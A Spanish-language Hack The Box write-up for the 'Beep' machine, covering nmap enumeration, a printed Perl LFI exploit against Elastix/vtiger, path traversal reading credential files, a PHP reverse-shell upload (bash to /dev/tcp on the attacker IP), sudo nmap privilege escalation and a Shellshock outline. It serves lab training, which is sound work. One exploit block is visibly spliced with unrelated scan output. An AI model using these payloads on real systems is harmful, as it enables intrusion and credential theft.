




<h3 style="text-align:center">DESCRIPCIÓN</h3><hr>

En este post realizaremos el write up de la máquina Beep. Tocaremos los conceptos de Elastix, Path Traversal, Shellshock,  haremos una explotación de la vulnerabilidad de abuso de subida de archivos existente en el vtiger CRM como tambien un Shellshock Attack.


<h3 style="text-align:center">INDICE</h3><hr>

- [Reconocimiento](#fase-de-reconocimiento)
    - [Enumeración de puertos](#enumeracion-de-puertos)
    - [Enumeración de servicios](#enumeracion-de-servicios)
    - [Que es Elastix](#elastix) 
- [Explotación](#explotacion)
    - [Vtiger CRM](#vtiger)
- [Escalada de privilegios](#escalada-de-privilegios)
    - [Flags](#flags)
- [Método Shellshock](#metodo-shellshock)
- [Autores y referencias](#autores-y-referencias)


<h3 style="text-align:center" id="fase-de-reconocimiento">RECONOCIMIENTO</h3><hr>


El objetivo principal de la etapa de reconocimiento es obtener una visión general de la infraestructura, sistemas, aplicaciones y posibles puntos débiles de la organización o sistema que se va a someter a la prueba de penetración. Esta información es esencial para planificar y ejecutar el resto del proceso de pentesting de manera más efectiva.

Durante la etapa de reconocimiento, el equipo de pentesting puede realizar diferentes acciones y técnicas, que incluyen:

1.`Búsqueda de información pública:` Se recopila información de dominios, subdominios, direcciones IP, registros de DNS, información de contacto de la empresa, etc., que está disponible públicamente a través de fuentes como el sitio web de la empresa, registros WHOIS, redes sociales, motores de búsqueda, entre otros.

2.`Escaneo de red:` Se utilizan herramientas de escaneo de puertos y servicios para identificar los sistemas en línea y los puertos abiertos en el objetivo. Esto ayuda a tener una idea de la infraestructura de red y los servicios disponibles.

3.`Enumeración de servicios:` Una vez identificados los servicios y puertos abiertos, se intenta obtener información más detallada sobre los servicios, como las versiones de software, para determinar si existen vulnerabilidades conocidas asociadas con esos servicios.

4.`Búsqueda de subdominios y directorios ocultos:` Se busca información adicional sobre posibles subdominios, directorios ocultos o páginas web no enlazadas públicamente, lo que podría revelar puntos de entrada adicionales o información sensible.

5.`Análisis de arquitectura de red:` Se investiga la topología de la red para comprender la relación entre diferentes sistemas y cómo se conectan, lo que ayuda a identificar posibles rutas para movimientos laterales.

6.`Búsqueda de vulnerabilidades conocidas:` Se investigan bases de datos de vulnerabilidades conocidas y bases de datos de exploits para identificar posibles vulnerabilidades que puedan existir en el software o servicios utilizados por el objetivo.

- Lo primero que vamos hacer es un ping a la maquina victima `ping -c 1 10.10.10.7`
  `ping:` Es el comando utilizado para enviar solicitudes de eco (ping) a una dirección IP específica para verificar la conectividad de red y la latencia de la conexión.
  `-c 1:` Es una opción que se utiliza para especificar el número de solicitudes de eco que se enviarán. En este caso, se envía solo una solicitud (-c 1).
  `10.10.10.7:` Es la dirección IP del host o máquina que será objeto del comando ping.

```ruby
❯ ping -c 1  10.10.14.168
PING 10.10.14.168 (10.10.14.168) 56(84) bytes of data.
64 bytes from 10.10.14.168: icmp_seq=1 ttl=64 time=0.025 ms

--- 10.10.14.168 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.025/0.025/0.025/0.000 ms
```
En este caso, el TTL=64 indica que es una máquina Linux.

<h3 style="text-align:center" id="enumeracion-de-puertos">ENUMERACIÓN DE PUERTOS</h3><hr>


Realizamos un escaneo de puertos usando la herramienta `nmap`:

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.7 -oG scanPorts`

Veamos el significado de cada opción utilizada en el comando:

- `nmap`: Es el comando para ejecutar la herramienta de escaneo de puertos `nmap`.

- `-p-`: Esta opción indica que se deben escanear todos los puertos, es decir, desde el puerto 1 hasta el puerto 65535.

- `--open`: Filtra los resultados del escaneo para mostrar solo los puertos que están abiertos, es decir, aquellos que responden a la solicitud de escaneo.

- `-sS`: Indica un escaneo de tipo "SYN scan". Este tipo de escaneo envía paquetes SYN (sincronización) a los puertos y analiza las respuestas para determinar si están abiertos, cerrados o filtrados por firewall.

- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes. En este caso, se envían al menos 5000 paquetes por segundo.

- `-vvv`: Habilita el modo de salida muy detallado, lo que significa que se mostrarán niveles de verbosidad muy altos para obtener información detallada del escaneo.

- `-n`: Indica que no se realice la resolución de DNS para las direcciones IP, lo que acelera el escaneo.

- `-Pn`: Esta opción indica que no se realice el "ping" para determinar si los hosts están en línea o no. Se ignoran las respuestas del ping y se escanea directamente.

- `10.10.10.7`: Es la dirección IP del objetivo que será escaneado.

- `-oG scanPorts`: Especifica que se debe guardar la salida del escaneo en un formato "grepable" (formato de texto plano) con el nombre de archivo "scanPorts".

```ruby
❯ cat scanPorts
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: scanPorts
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.93 scan initiated Sun Jul 23 01:05:09 2023 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG scanPorts 10.10.10.7
   2   │ # Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
   3   │ Host: 10.10.10.7 () Status: Up
   4   │ Host: 10.10.10.7 () Ports: 22/open/tcp//ssh///, 25/open/tcp//smtp///, 80/open/tcp//http///, 110/open/tcp//pop3///, 111/open/tcp//rpcbind///, 143/open/tcp//imap///, 443/open/tc
       │ p//https///, 878/open/tcp//unknown///, 993/open/tcp//imaps///, 995/open/tcp//pop3s///, 3306/open/tcp//mysql///, 4190/open/tcp//sieve///, 4445/open/tcp//upnotifyp///, 4559/open
       │ /tcp//hylafax///, 5038/open/tcp/////, 10000/open/tcp//snet-sensor-mgmt///
   5   │ # Nmap done at Sun Jul 23 01:05:32 2023 -- 1 IP address (1 host up) scanned in 23.61 seconds
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

<br>
Escaneamos al objetivo con los scripts básicos de reconocimiento de nmap, apuntando a los puertos abiertos en busca de más información.
Los resultados incluirán información sobre los servicios que se están ejecutando en los puertos escaneados y sus versiones correspondientes.

`nmap -sCV -p22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 10.10.10.7 -oN targeted`


```ruby
File: targeted
# Nmap 7.93 scan initiated Sun Jul 23 01:12:05 2023 as: nmap -sCV -p22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 -oN targeted 10.10.10.7
Nmap scan report for 10.10.10.7
Host is up (0.098s latency).

PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 adee5abb6937fb27afb83072a0f96f53 (DSA)
|_  2048 bcc6735913a18a4b550750f6651d6d0d (RSA)
25/tcp    open   smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open   http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: USER APOP PIPELINING LOGIN-DELAY(0) UIDL TOP STLS AUTH-RESP-CODE RESP-CODES EXPIRE(NEVER) IMPLEMENTATION(Cyrus POP3 server v2)
111/tcp   open   rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            878/udp   status
|_  100024  1            881/tcp   status
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IDLE OK MAILBOX-REFERRALS QUOTA URLAUTHA0001 BINARY STARTTLS X-NETSCAPE LIST-SUBSCRIBED THREAD=ORDEREDSUBJECT IMAP4 CHILDREN Completed RIGHTS=kxte UNS
T IMAP4rev1 CATENATE ANNOTATEMORE SORT ID NAMESPACE LITERAL+ SORT=MODSEQ UIDPLUS RENAME ACL LISTEXT MULTIAPPEND ATOMIC CONDSTORE THREAD=REFERENCES NO
443/tcp   open   ssl/https?
|_ssl-date: 2023-07-23T06:15:27+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
878/tcp   closed unknown
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 23 01:18:33 2023 -- 1 IP address (1 host up) scanned in 388.88 seconds
```
Vemos que en el puerto 80 esta corriendo un servicio http, vamos hacer un reconocimiento de la pagina.

<h3 style="text-align:center" id="enumeracion-de-servicios">ENUMERACIÓN DE SERVICIOS</h3><hr>

Hacemos un escaneo con whatweb `whatweb http://10.10.10.7` 

``` ruby
whatweb http://10.10.10.7
http://10.10.10.7 [302 Found] Apache[2.2.3], Country[RESERVED][ZZ], HTTPServer[CentOS][Apache/2.2.3 (CentOS)], IP[10.10.10.7], RedirectLocation[https://10.10.10.7/], Title[302 Found]
ERROR Opening: https://10.10.10.7/ - SSL_connect returned=1 errno=0 state=error: dh key too small
```
El código de estado HTTP 302 Found es una respuesta de redirección que se envía desde el servidor web al navegador del cliente para indicar que la página solicitada se ha movido temporalmente a una nueva ubicación, en este caso va a una direccion https.

Si nos dirigimos al servidor web ubicado en `https://10.10.10.7/` nos encontramos la siguiente pagina:



<h3 style="text-align:center" id="elastix">ELASTIX</h3><hr>

Elastix era una distribución de software de código abierto basada en el sistema operativo Linux, que proporcionaba una solución integral de comunicaciones unificadas y centralita telefónica (PBX). La plataforma fue diseñada para ser utilizada por pequeñas y medianas empresas, así como por proveedores de servicios.

Las principales características de Elastix incluían:

1. PBX (Centralita telefónica): Proporcionaba funciones de telefonía tradicionales, como la gestión de extensiones, transferencias de llamadas, conferencias y correo de voz.

2. Comunicaciones unificadas: Permitía integrar diferentes canales de comunicación, como voz, video, mensajería instantánea y correo electrónico, en una sola plataforma.

3. Interfaz web: Ofrecía una interfaz de administración basada en la web, lo que facilitaba la configuración y gestión del sistema sin la necesidad de conocimientos técnicos avanzados.

4. Soporte para telefonía IP: Elastix era compatible con teléfonos IP y softphones, permitiendo a las empresas realizar llamadas a través de redes IP en lugar de líneas telefónicas tradicionales.

5. Integración con software de terceros: Ofrecía la posibilidad de integrarse con otros sistemas y servicios populares, como sistemas de CRM (Customer Relationship Management) y aplicaciones de software empresarial.
	
- Con la herramienta searchsploit vemos si existen vulnerabilidades  para el servicio de elastix.
`searchsploit elastix`

```ruby
❯ searchsploit elastix
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                                                                 | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                                               | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                                                         | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                      | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                                                     | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                                                    | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                                | php/webapps/18650.py
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Vamos hacer un Local File Inclusion para ello vemos el código del script escrito en perl 
`searchsploit -x php/webapps/37637.pl`

```ruby
Scanning 10.10.10.7 [65535 ports]
Discovered open port 443/tcp on 10.10.10.7
Discovered open port 995/tcp on 10.10.10.7
Discovered open port 993/tcp on 10.10.10.7
❯ nmap -sCV -p22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 10.10.10.7 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-23 01:12 -05
Nmap scan report for 10.10.10.7
Host is up (0.098s latency).

PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;)
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {

print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";

}
else {
print "\n[-] not successful\n";
        }

```
 vamos a usar el exploit que como vemos aplica un Path Traversal `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`


Vemos información clave de configuración, tanto credenciales como usuarios.

si intentamos listar el passwd también lo interpreta:

Algo que recomiendo hacer es siempre intentar otros procesos, por ejemplo:

`/proc/sched_debug`: representa una interfaz especial del kernel para acceder a información detallada sobre el planificador de procesos del sistema operativo. Específicamente, proporciona datos de depuración y estadísticas relacionadas con la planificación de tareas (procesos) en el kernel Linux, para esta máquina no vemos información relevante.

`/proc/schedstat`: muestra estadísticas resumidas sobre la actividad del planificador de procesos, de igual manera no vemos información relevante.

`/proc/net/tcp`: Este archivo contiene detalles sobre cada conexión TCP establecida, incluyendo información sobre los puertos locales y remotos, el estado de la conexión y diversos datos de control.

```ruby
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 00000000:03E1 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 10408 1 f7680dc0 3000 0 0 2 -1                            
   1: 00000000:03E3 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 10416 1 f6f49b40 3000 0 0 2 -1                            
   2: 0100007F:4E24 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 11171 1 f6f48040 3000 0 0 2 -1                            
   3: 00000000:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000    27        0 10058 1 f76804c0 3000 0 0 2 -1                            
   4: 00000000:13AE 00000000:0000 0A 00000000:00000000 00:00000000 00000000   100        0 11099 1 f6f484c0 3000 0 0 2 -1                            
   5: 00000000:006E 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 10412 1 f7681240 3000 0 0 2 -1                            
   6: 00000000:11CF 00000000:0000 0A 00000000:00000000 00:00000000 00000000    10        0 11316 1 f2eabb40 3000 0 0 2 -1                            
   7: 00000000:008F 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 10404 1 f7680940 3000 0 0 2 -1                            
   8: 00000000:036F 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 8132 1 f76816c0 3000 0 0 2 -1                             
   9: 00000000:006F 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 7945 1 f7681b40 3000 0 0 2 -1                             
  10: 00000000:2710 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 11587 1 f2eaa940 3000 0 0 2 -1                            
  11: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 10838 1 f6f48dc0 3000 0 0 2 -1                            
  12: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 9868 1 f7680040 3000 0 0 2 -1                             
  13: 00000000:0019 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 10680 1 f6f49240 3000 0 0 2 -1                            
  14: 00000000:01BB 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 10844 1 f6f48940 3000 0 0 2 -1                            
  15: 00000000:115D 00000000:0000 0A 00000000:00000000 00:00000000 00000000   100        0 11512 1 f2eab6c0 3000 0 0 2 -1                            
  16: 00000000:105E 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 10420 1 f6f496c0 3000 0 0 2 -1                            
  17: 070A0A0A:01BB A80E0A0A:949C 01 00000000:00000000 02:000AFBEC 00000000   100        0 61745 3 f2eaa040 290 40 5 2 -1                            
  18: 0100007F:E854 0100007F:13AE 01 00000000:00000000 00:00000000 00000000   100        0 11513 1 f2eab240 256 40 0 2 -1                            
  19: 0100007F:13AE 0100007F:E854 01 00000000:00000000 00:00000000 00000000   100        0 11514 1 f2eaadc0 201 40 1 2 -1                            
Sorry! Attempt to access restricted file.

```
Vamos a crear un one-liner para convertir la columna 'local_address' de hexadecimal a decimal y ver los puertos que están abiertos.

```ruby
echo "03E1                                                                                                     
03E3
4E24
0CEA
13AE
006E
036E
11CF
008F
006F
2710
0050
0016
0019
01BB
115D
105E
01BB
8EC3
115D
01BB
13AE
115D
115D
115D" | sort -u | while read port; do echo "[+] Puerto $port: $(echo $((16#$port))) "; done


[+] Puerto 0016: 22 
[+] Puerto 0019: 25 
[+] Puerto 0050: 80 
[+] Puerto 006E: 110 
[+] Puerto 006F: 111 
[+] Puerto 008F: 143 
[+] Puerto 01BB: 443 
[+] Puerto 036E: 878 
[+] Puerto 03E1: 993 
[+] Puerto 03E3: 995 
[+] Puerto 0CEA: 3306 
[+] Puerto 105E: 4190 
[+] Puerto 115D: 4445 
[+] Puerto 11CF: 4559 
[+] Puerto 13AE: 5038 
[+] Puerto 2710: 10000 
[+] Puerto 4E24: 20004 
[+] Puerto 8EC3: 36547

```
Al comparar con el escaneo de nmap son los mismo puertos que habíamos escaneado.
<br>
 
<h3 style="text-align:center" id="explotacion">EXPLOTACIÓN</h3><hr>


<h3 style="text-align:center" id="vtiger">VTIGER CRM</h3><hr>

Vtiger CRM es un software de gestión de relaciones con clientes (CRM, por sus siglas en inglés) de código abierto que se utiliza para administrar las interacciones y relaciones con los clientes en una empresa. Es una suite de aplicaciones que proporciona herramientas para automatizar y mejorar diversas actividades relacionadas con el ciclo de vida del cliente, desde la captación de clientes potenciales hasta la atención al cliente y el servicio postventa.


Usamos las credenciales que vimos en el exploit para ingresar al vtiger usurio:admin, Password: jEhdIekWmdjE

y vamos al apartado communication templates, luego a Company Details, donde podemos abusar de la subida de archivos.


Solo acepta archivos jpg, entonces para ello vamos a crear un archivo php para luego intentar colarlo como jpg
```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.168/443 0>&1'");
?>
``` 
Con esto vamos a intentar llamar una bash 
`mv cmd.php cmd.php.jpg` cambiamos el nombre
	si le hacemos un `file cmd.php.jpg` vemos que lo reconoce como un script de php
```ruby
file cmd.php.jpg
cmd.php.jpg: PHP script, ASCII text

```


Nos podemos en escucha por el puerto 443 `nc -nlvp 443`


De esta manera ganamos acceso a la máquina máquina.

Ahora hacemos un tratamiento de la TTY
`script /dev/null -c bash`+ hacemos un CTRL+Z  +  `stty raw -echo; fg` +  `reset xterm` damos enter  +   `export TERM=xterm`  +  `export SHELL=bash` + `stty rows 44 columns 184`

<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>

```ruby
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 

```
Existen varios binarios para realizar una escaldad de privilegios, es te caso vamos hacerlo con nmpa, pero también se puede con chmod y muchos mas.
vemos si nmap tiene el modo interactivo, las versiones antiguas de nmap nos permiten entrar en un modo interactivo que al usarlo se hace como root y esto es una brecha gigante por lo siguiente:

```ruby
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash
bash-3.2# whoami
root
bash-3.2# 

```

<h3 style="text-align:center" id="flags">FLAGS</h3><hr>

```ruby
bash-3.2# cat root.txt 
b5ea837bb88589a63d81c657cbe15c4c
bash-3.2# 

```

<h3 style="text-align:center" id="metodo-shellshock">MÉTODO SHELLSHOCK</h3><hr>


Lo haremos con un ataque de shellshock 
En el puerto 10000 esta corriendo un servicio llamado miniserv Webmin


Estas extenciones de .cgi se viene a la mente [[Ataque ShellShock]]
Vamos a interceptar la peticion con [[BurpSuite]] para ver como se comporta la petición 
https://blog.cloudflare.com/inside-shellshock/

Intentamos colar el comando whoami por el puerto 443

Nos podemos en escucha y enviamos la peticion:
`nc -nlvp 443`

Como no lo envia es un shellshock de manera que si queremos ganar acceso a la maquina podemos enviarnos una bahs.

Modos para ver la version de la maquina:
- `lsb_release -a `
- `cat /etc/os-release`
- ` cat /etc/issue`
<h3 style="text-align:center" id="autores-y-referencias">AUTORES y REFERENCIAS</h3><hr>

Autor del write up: John Osorio (Balthael) <a href="https://app.hackthebox.com/profile/1366059" target="_blank">HTB</a>. Si quieres contactarme por cualquier motivo lo podéis hacer a través 
de <a href="https://www.instagram.com/joh_sb/" target="_blank">Instagram</a>.

Autor de la máquina:  <em>ch4p</em>, muchas gracias por la creación de Beep, la disfrute mucho. <a href="https://app.hackthebox.com/users/1" target="_blank">HTB</a>.
